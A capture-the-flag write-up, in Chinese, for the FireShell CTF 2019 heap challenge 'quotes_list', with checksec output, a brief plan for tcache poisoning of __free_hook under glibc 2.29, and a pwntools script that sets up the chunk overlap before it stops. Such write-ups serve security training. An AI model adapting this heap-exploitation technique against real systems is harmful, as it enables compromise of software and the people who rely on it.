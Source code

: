 ### quotes list

```
// file
quotes_list:   ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/glibc/ld-linux-x86-64.so.2, BuildID[sha1]=5cf94e27bc7da208d0aea7c680b47b54042fe1c1, for GNU/Linux 3.2.0, stripped

// checksec
[*] '/tmp/tmp/fireshell-ctf-2019/pwn/quotes_list/src/quotes_list'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  '/opt/glibc'
```

glibc 2.29 有對 tcache 加上 key，不過打 heap 如果能創造 chunk overlap，基本上就能做到 leak heap base，而再透過 tcache 機制 + malloc largebin chunk，就能 leak libc，最後透過 tcache poison 來寫 `__free_hook`，exploit 如下:

```python
#!/usr/bin/python3

from pwn import *

"""
1) Create quote
2) Edit quote
3) Show quote
4) Delete quote
5) Exit
"""

def create(l, payload):
    r.sendlineafter("> ", "1")
    r.sendlineafter("Length: ", str(l))
    r.sendafter("Content: ", payload)

def edit(idx, payload):
    r.sendlineafter("> ", "2")
    r.sendlineafter("Index: ", str(idx))
    r.sendafter("Content: ", payload)

# 0 ~ 5
def show(idx):
    r.sendlineafter("> ", "3")
    r.sendlineafter("Index: ", str(idx))

def delete(idx):
    r.sendlineafter("> ", "4")
    r.sendlineafter("Index: ", str(idx))

r = process('./Q', env={"LD_PRELOAD": "./libc.so.6"})

create(0x28, b'\xff'*0x28) # add 0
create(0x108, b'\xee'*0x108) # add 1
edit(0, b'\xff'*0x28 + b'\xf0')
delete(1) # del 1, into 0x1f0 tcache
create(0x28, b'\xdd'*0x28) # add 1
create(0x420, b'\xaa') # add 2
create(0x48, b'\xbb') # add 3
delete(2) # del 2, libc
delete(3) # del 3
delete(1) # del 1
```